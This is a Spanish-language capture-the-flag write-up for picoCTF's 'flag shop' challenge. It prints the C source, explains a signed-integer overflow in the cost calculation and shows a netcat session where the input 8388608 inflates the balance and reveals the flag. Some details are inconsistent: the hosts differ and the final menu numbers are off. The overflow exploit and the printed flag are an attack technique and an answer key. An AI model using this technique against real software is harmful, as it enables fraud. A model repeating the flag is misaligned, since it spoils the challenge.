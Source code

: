 #### Descripción

Hay una tienda de banderas que vende cosas, ¿puedes comprar una bandera? [Fuente](https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c). Conéctese con .`nc jupiter.challenges.picoctf.org 4906`

### Solución 

Este reto nos proporciona un programa que simula una tienda para comprar banderas. La fuente se proporciona y se encuentra a continuación.

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }     
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }
                }
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

Este programa imprime la bandera si compramos una bandera 1337, por lo que nuestro objetivo es comprar la bandera 1337. Podemos comprar la bandera si el saldo de nuestra cuenta es superior a 100000. Desafortunadamente, el saldo de nuestra cuenta comienza en 1100, por lo que tenemos que encontrar una manera de aumentar nuestro saldo. Tras una inspección más detallada, nuestra única forma de cambiar el saldo de la cuenta es restarle .`account_balance = account_balance - total_cost;`

Lo importante que hay que tener en cuenta para resolver este problema es que todos los números de este programa son de tipo int, lo que significa que pueden ser positivos y negativos. También significa que los enteros están enlazados a INT_MIN y INT_MAX porque utilizan un número fijo de bits, normalmente 32 o 64.

Otra cosa importante es el comportamiento de los enteros cuando se pasa INT_MAX y INT_MIN. Sumar dos enteros que dan como resultado un número mayor que INT_MAX se conoce como desbordamiento y es un comportamiento indefinido. Esto que sucede en el lado INT_MIN es un flujo inferior. La mayoría de los números enteros se representan usando [el complemento a dos, ya que](https://en.wikipedia.org/wiki/Two%27s_complement) la suma es una operación idéntica independientemente de si los números son positivos o negativos.

Entonces, ¿cómo se aplica esto a nuestro desafío? Volviendo a la línea, , si hacemos que el coste total sea negativo podemos añadir a nuestro saldo de cuenta para que podamos comprar la bandera. Si miramos más arriba podemos ver cómo podemos controlar .`account_balance = account_balance - total_cost;``total_cost`

```c
scanf("%d", &number_flags);
    if(number_flags > 0){
        int total_cost = 0;
        total_cost = 900*number_flags;
```

Podemos suministrar un número mayor que 0 que luego se multiplica por 900. Como no podemos proporcionar un número negativo, tenemos que proporcionar un número que se desborde cuando se multiplique por 900. Cuando el número se desborda, debe ser negativo, lo que nos permite agregar un número arbitrario al saldo de nuestra cuenta. Elegí usar 2^23 (8388608). Podemos proporcionar esto al programa como se detalla a continuación.

```
$ nc 2019shell1.picoctf.com 63894
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
8388608

The final cost is: -1040187392

Your current balance after transaction: 1040188492

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_818a7f84}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
3
```

Esto nos da la bandera, .`picoCTF{m0n3y_bag5_818a7f84}`